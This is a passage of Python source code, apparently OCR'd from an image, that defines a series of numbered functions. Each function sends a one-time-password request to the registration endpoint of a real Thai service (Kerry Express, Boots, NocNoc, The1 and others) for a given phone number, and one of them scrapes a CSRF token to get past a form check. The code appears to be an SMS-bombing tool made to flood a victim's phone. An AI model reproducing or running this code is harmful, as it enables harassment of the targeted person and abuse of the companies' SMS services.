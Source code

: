     post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})



def ab14(phone):

    session = Session()

    searchItem = session.get("https://www.shopat24.com/register/").text

    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)

    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})



def ab15(phone):

    post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", headers={"User-Agent": useragent}, data={"tel": phone,"otp_type":"register"})



def ab16(phone):

    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", headers={"User-Agent": useragent}, json={"on":{"value": phone,"country":"66"},"type":"mobile"})



def ab17(phone):

    post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})



def ab18(phone):

    post("https://graph.firster.com/graphql",headers={"User-Agent": useragent, "organizationcode": "lifestyle","content-type": "application/json"}, json={"operationName":"sendOtp","variables":{"input":{"mobileNumber": phone[1:],"phoneCode":"THA-66"}},"query":"mutation sendOtp($input: SendOTPInput!) {\n  sendOTPRegister(input: $input) {\n    token\n    otpReference\n    expirationOn\n    __typename\n  }\n}\n"})



def ab19(phone):

    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": randomString(10)}})



def ab20(phone):

    post("https://store.boots.co.th/api/v1/guest/register/otp", headers={"User-Agent": useragent}, json={"phone_number":f"{phone[1:]}"})


